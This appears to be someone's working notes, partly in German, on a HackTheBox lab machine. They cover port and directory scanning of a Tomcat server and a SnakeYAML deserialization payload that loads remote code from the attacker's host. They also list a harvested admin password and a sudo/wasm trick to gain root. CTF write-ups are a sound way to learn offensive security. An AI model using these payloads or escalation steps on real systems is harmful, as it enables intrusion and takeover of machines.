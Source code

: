 # Main

Name: Ophiuchi
IP: 10.10.10.227

Ports: 8080 (Apache Tomcat)
22 SSH


rustscan
``rustscan -a 10.10.10.227 -- -sC -sV``

feroxbuster
``feroxbuster -u http://10.10.10.227:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt``


# tomcat
Apache Tomcat/9.0.38

found some manager site

02        0l        0w        0c http://10.10.10.227:8080/test
302        0l        0w        0c http://10.10.10.227:8080/manager
200        0l        0w        0c http://10.10.10.227:8080/Servlet
302        0l        0w        0c http://10.10.10.227:8080/host-manager
302        0l        0w        0c http://10.10.10.227:8080/host-manager/images
302        0l        0w        0c http://10.10.10.227:8080/manager/images
401       63l      291w     2499c http://10.10.10.227:8080/manager/text
401       54l      241w     2044c http://10.10.10.227:8080/host-manager/text
401       63l      291w     2499c http://10.10.10.227:8080/manager/status
401       63l      291w     2499c http://10.10.10.227:8080/manager/html
401       54l      241w     2044c http://10.10.10.227:8080/host-manager/html
302        0l        0w        0c http://10.10.10.227:8080/manager/css

## yaml parser is vulnable


https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858


```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.138/"]
  ]]
]
```


### passwort from user admin

gefunden in conf/tomcat.users.xml

Passwort: whythereisalimit

onf/tomcat-users.xml:<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>

## root



index.go
```
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```


copy /opt/wsm... to ~/
change to that dir
sudo. it

### install wasm-pack
``cargo install wasm-pack``

### create main project
``cargo new --lib main``

### edit lib.rs 
--> create rust program with function info and return value 1 (abstraction from https://github.com/wasmerio/wasmer-go/blob/master/examples/appendices/simple.rs)
```
#[no_mangle]
pub extern "C" fn info() -> i32 {return 1;}
```

### compile the project
``wasm-pack build``

### copy it to the server

change deploy.sh to desired root code and run the sudo command

 


